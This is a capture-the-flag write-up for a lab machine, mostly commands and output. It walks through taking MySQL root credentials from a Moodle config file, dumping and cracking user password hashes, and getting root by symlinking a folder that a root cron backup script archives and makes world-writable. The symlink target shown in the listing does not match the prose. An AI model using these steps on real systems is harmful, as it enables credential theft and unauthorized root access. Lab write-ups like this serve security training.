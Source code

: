 # Privilege Escalation

- From /var/www/html/moodle/config.php.save, we can get the mysql credentials.
```php
www-data@teacher:/var/www/html/moodle$ cat config.php                                           
<?php  // Moodle configuration file                                                             
                                                                                                
unset($CFG);                                                                                    
global $CFG;                                                                                    
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (

```
- We can login using `mysql -u root -pWelkom1!`
- We can check in database moodle, there is a table named as `mdl_user`
```mysql
MariaDB [moodle]> select id,username,password from mdl_user;
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |

```
- We can see the password with user ID: LEET is in md5sum, which we can check online (no need for hashcat or john)
- giovanni:expelled
- We can try loggin in using these credentials. /etc/passwd, would have had the users with login capabilities, from where we can get the user giovanni, or check the home directory.


## User: root
- After running linpeas, we can see that there is a file `/usr/bin/backup.sh`, which we can read, which is creating a backup of /home/giovanni/work/courses directory in a tar file in ./tmp directory and then extarcting that and changing the pemissions to 777 for all the files recursively.
```bash
giovanni@teacher:/var/www/html/moodle$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;

```
- Also date tells us that backup file is being created every minute, with root privileges, so there must be a cron job which is perfoming this every minute with rroot prrivileges.
```bash
giovanni@teacher:~$ ls -la work/tmp/backup_courses.tar.gz 
-rwxrwxrwx 1 root root 45 Apr 18 16:15 work/tmp/backup_courses.tar.gz
giovanni@teacher:~$ date
Sun Apr 18 16:15:12 CEST 2021
giovanni@teacher:~$ 

```
- So we can change the couses file as such so that we can get the root access or flag. We can create a symbolic link named `course` to root directory, using `ln -s /root courses`. Now the script will make a backup for the root directory and then get us `root.txt` in the `./tmp/course` directory
```bash
giovanni@teacher:~/work$ ls -la
total 16
drwxr-xr-x 4 giovanni giovanni 4096 Apr 18 15:44 .
drwxr-x--- 4 giovanni giovanni 4096 Nov  4  2018 ..
lrwxrwxrwx 1 giovanni giovanni   11 Apr 18 15:44 courses -> /etc/shadow
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 courses.bak
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp
giovanni@teacher:~/work$ cat tmp/courses/root.txt 
4f3a83b4...
giovanni@teacher:~/work$ 

```